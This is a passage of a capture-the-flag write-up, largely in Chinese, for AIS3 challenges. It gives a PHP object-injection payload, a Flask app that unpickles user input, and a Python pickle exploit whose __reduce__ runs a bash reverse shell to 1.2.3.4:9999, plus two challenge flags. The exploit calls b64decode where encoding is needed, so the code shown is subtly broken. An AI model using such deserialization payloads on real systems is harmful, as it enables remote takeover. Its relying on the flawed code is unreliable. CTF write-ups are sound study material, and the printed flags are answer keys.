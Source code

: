 ```
O:4:"User":2:{s:4:"name";s:1:"a";s:11:"\x00User\x00token";a:0:{}}
```

```
AIS3{0nly_3l3ph4n75_5h0uld_0wn_1v0ry}
```

### Snake

這題網站在 https://snake.ais3.org/ ，首頁就是原始碼了

```python
from flask import Flask, Response, request
import pickle, base64, traceback

Response.default_mimetype = 'text/plain'

app = Flask(__name__)

@app.route("/")
def index():
    data = request.values.get('data')
    
    if data is not None:
        try:
            data = base64.b64decode(data)
            data = pickle.loads(data)
            
            if data and not data:
                return open('/flag').read()

            return str(data)
        except:
            return traceback.format_exc()
        
    return open(__file__).read()
```

給他 data，他會 `pickle.loads`，沒有任何檢查，所以直接 reverse shell

```python
import os
import pickle
from base64 import *

class Exploit:
    def __reduce__(self):
        return(os.system, (('bash -c "bash -i >& /dev/tcp/1.2.3.4/9999 0>&1"'),))

ex = Exploit()
print(b64decode(pickle.dumps(ex)))
```

```
AIS3{7h3_5n4k3_w1ll_4lw4y5_b173_b4ck.}
```
